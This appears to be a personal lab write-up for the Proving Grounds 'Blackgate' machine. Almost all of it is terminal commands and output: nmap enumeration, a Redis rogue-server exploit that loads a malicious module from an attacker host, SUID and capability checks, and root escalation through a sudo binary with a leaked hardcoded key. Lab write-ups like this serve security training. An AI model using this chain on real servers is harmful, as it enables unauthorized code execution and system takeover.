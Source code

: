 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Blackgate"
date:   2024-07-25 16:33:13 -0400
categories: oscp proving-grounds TJNull
---
```


192.168.169.176

└─$ sudo nmap -sV -sC -p- -oA Blackgate 192.168.169.176 
[sudo] password for kali: 
\\Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 16:15 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Stats: 0:00:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 20.14% done; ETC: 16:19 (0:03:06 remaining)
Stats: 0:01:29 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.13% done; ETC: 16:19 (0:02:26 remaining)
Stats: 0:01:56 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 41.77% done; ETC: 16:20 (0:02:43 remaining)
Nmap scan report for 192.168.169.176
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 37:21:14:3e:23:e5:13:40:20:05:f9:79:e0:82:0b:09 (RSA)
|   256 b9:8d:bd:90:55:7c:84:cc:a0:7f:a8:b4:d3:55:06:a7 (ECDSA)
|_  256 07:07:29:7a:4c:7c:f2:b0:1f:3c:3f:2b:a1:56:9e:0a (ED25519)
6379/tcp open  redis   Redis key-value store 4.0.14
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 363.62 seconds


==============================================================================================================

Redis key-value store 4.0.14

nmap --script redis-info -sV -p 6379 192.168.169.176

┌──(kali㉿kali)-[~/offsec/pg-practice/Blackgate]
└─$ nmap --script redis-info -sV -p 6379 192.168.169.176
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 16:25 EDT
Nmap scan report for 192.168.169.176
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.14 (64 bits)
| redis-info: 
|   Version: 4.0.14
|   Operating System: Linux 5.8.0-63-generic x86_64
|   Architecture: 64 bits
|   Process ID: 874
|   Used CPU (sys): 0.33
|   Used CPU (user): 0.19
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 882.46K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|   Client connections: 
|_    192.168.45.213

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds


https://github.com/n0b0dyCN/redis-rogue-server

python3 redis-rogue-server.py --rhost 192.168.169.176 --lhost 192.168.45.213

prudence


getcap -r / 2>/dev/null

/snap/core20/1405/usr/bin/ping cap_net_raw=ep
/usr/bin/traceroute6.iputils cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep



find / -perm -u=s 2>/dev/null | grep -v '^/proc|^/run|^/sys|^/snap'

/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/newgrp
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1

sudo -l 
Matching Defaults entries for prudence on blackgate:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin


file /usr/local/bin/redis-status
/usr/local/bin/redis-status: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b3e6813dd295d7429e328f168e6ce260f0ed33f6, for GNU/Linux 3.2.0, not stripped


strings /usr/local/bin/redis-status
/lib64/ld-linux-x86-64.so.2
gets
puts
printf
stderr
system
fwrite
strcmp
__libc_start_main
libc.so.6
GLIBC_2.2.5
__gmon_start__
H=X@@
[]A\A]A^A_
[*] Redis Uptime
Authorization Key: 
ClimbingParrotKickingDonkey321
/usr/bin/systemctl status redis
Wrong Authorization Key!
Incident has been reported!
:*3$"
GCC: (Ubuntu 10.3.0-1ubuntu1~20.10) 10.3.0
/usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/crt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
redis-status.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
puts@@GLIBC_2.2.5
_edata
system@@GLIBC_2.2.5
printf@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
strcmp@@GLIBC_2.2.5
__gmon_start__
__dso_handle
_IO_stdin_used
gets@@GLIBC_2.2.5
__libc_csu_init
_dl_relocate_static_pie
__bss_start
main
fwrite@@GLIBC_2.2.5
__TMC_END__
stderr@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got
.got.plt
.data
.bss
.comment


sudo redis-status
ClimbingParrotKickingDonkey321
● redis.service - redis service
     Loaded: loaded (/etc/systemd/system/redis.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2024-07-25 20:43:30 UTC; 2min 30s ago
   Main PID: 2223 (sh)
      Tasks: 5 (limit: 1062)
     Memory: 2.0M
     CGroup: /system.slice/redis.service
             ├─2223 [sh]
             ├─2289 sudo redis-status
             ├─2290 redis-status
             ├─2295 sh -c /usr/bin/systemctl status redis
             └─2296 /usr/bin/systemctl status redis

Jul 25 20:43:52 blackgate redis-server[2223]: 2223:S 25 Jul 20:43:52.444 # Wrong signature trying to load DB from file
Jul 25 20:43:52 blackgate redis-server[2223]: 2223:S 25 Jul 20:43:52.444 # Failed trying to load the MASTER synchronization DB from disk
Jul 25 20:43:52 blackgate redis-server[2223]: 2223:S 25 Jul 20:43:52.570 * Connecting to MASTER 192.168.45.213:21000
Jul 25 20:43:52 blackgate redis-server[2223]: 2223:S 25 Jul 20:43:52.570 * MASTER <-> SLAVE sync started
Jul 25 20:43:52 blackgate redis-server[2223]: 2223:S 25 Jul 20:43:52.689 * Non blocking connect for SYNC fired the event.
Jul 25 20:43:54 blackgate redis-server[2223]: 2223:S 25 Jul 20:43:54.339 * Module 'system' loaded from ./exp.so
Jul 25 20:43:54 blackgate redis-server[2223]: 2223:M 25 Jul 20:43:54.455 # Setting secondary replication ID to ee2acdde5f73ed057b921cc0378c58d9c0832791, valid up to offset: 1. New replication ID is 3ddba532ddf970f8d9867e2c66b5ce9ac954b005
Jul 25 20:43:54 blackgate redis-server[2223]: 2223:M 25 Jul 20:43:54.455 * MASTER MODE enabled (user request from 'id=3 addr=192.168.45.213:43304 fd=8 name= age=6 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=0 qbuf-free=32768 obl=0 oll=0 omem=0 events=r cmd=slaveof')
Jul 25 20:45:49 blackgate sudo[2289]: prudence : TTY=unknown ; PWD=/tmp ; USER=root ; COMMAND=/usr/local/bin/redis-status
Jul 25 20:45:49 blackgate sudo[2289]: pam_unix(sudo:session): session opened for user root by (uid=0)
[*] Redis Uptime



python3 -c 'import pty; pty.spawn("/bin/bash")'




